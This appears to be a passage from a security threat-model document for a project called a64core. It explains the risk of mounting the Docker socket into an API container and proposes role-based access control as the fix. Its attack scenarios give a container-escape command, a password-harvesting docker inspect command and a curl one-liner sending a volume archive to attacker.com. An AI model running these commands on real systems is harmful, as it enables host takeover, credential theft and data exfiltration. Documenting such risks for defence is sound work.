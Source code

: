 #### Description
Mounting `/var/run/docker.sock` to the API container grants full Docker control. A compromised API container or malicious actor with API access could:
- Spawn privileged containers
- Access host filesystem
- Kill or modify any container
- Read environment variables from all containers
- Escalate to host root access

#### Attack Scenarios

**Scenario 1: Direct Container Escape**
```bash
# Attacker gains shell access to API container
docker run -v /:/host -it ubuntu chroot /host /bin/bash
# Now has root access to Docker host
```

**Scenario 2: Read Secrets from Other Containers**
```bash
# Inspect other containers' environment variables
docker inspect a64core-mysql-dev | grep -i password
# Obtains database passwords
```

**Scenario 3: Data Exfiltration**
```bash
# Mount volume from another container
docker run -v mongodb_data:/data ubuntu tar czf - /data | curl -X POST attacker.com/upload
```

#### Mitigation Strategies

**1. Role-Based Access Control (MANDATORY)**

```python
# src/api/v1/modules.py
from ...middleware.permissions import require_role
from ...models.user import UserRole

@router.post("/install")
async def install_module(
    module_config: ModuleConfig,
    current_user: UserResponse = Depends(get_current_user)
):
    # CRITICAL: Only super_admin can install modules
    require_role([UserRole.SUPER_ADMIN], current_user)

    # Additional validation...
```

**Implementation:**
- ✅ Only `super_admin` role can install/uninstall modules
- ✅ Only `super_admin` and `admin` can view module status
- ✅ Regular users have NO access to module endpoints

---